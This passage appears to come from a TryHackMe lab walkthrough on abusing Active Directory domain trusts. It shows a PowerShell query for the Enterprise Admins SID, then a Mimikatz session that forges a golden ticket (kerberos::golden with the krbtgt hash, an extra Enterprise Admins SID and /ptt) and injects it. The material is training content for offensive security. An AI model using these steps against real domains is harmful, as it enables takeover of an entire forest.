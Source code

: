 We can recover the SID of the Enterprise Admins group using the following command to query the parent domain controller:

```shell-session
PS C:\> Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc

DistinguishedName : CN=Enterprise Admins,CN=Users,DC=tryhackme,DC=loc
GroupCategory     : Security
GroupScope        : Universal
Name              : Enterprise Admins
ObjectClass       : group
ObjectGUID        : a23ae384-16e8-44d5-9b36-8173c4e0e5de
SamAccountName    : Enterprise Admins
SID               : S-1-5-21-3330634377-removed-519
```

### Exploiting Domain Trusts

We finally have all of the information required to create our forged TGT. We will use Mimikatz to generate this golden ticket. The command will look something like this:

```shell-session
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
User      : Administrator
Domain    : za.tryhackme.loc (ZA)
SID       : S-1-5-21-3885271727-2693558621-2658995185-1001
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3330634377-1326264276-632209373-519 ;
ServiceKey: 16f9af38fca3ada405386b3b57366082 - rc4_hmac_nt
Service   : krbtgt
Lifetime  : 4/30/2022 7:52:51 PM ; 4/27/2032 7:52:51 PM ; 4/27/2032 7:52:51 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ za.tryhackme.loc' successfully submitted for current session
```
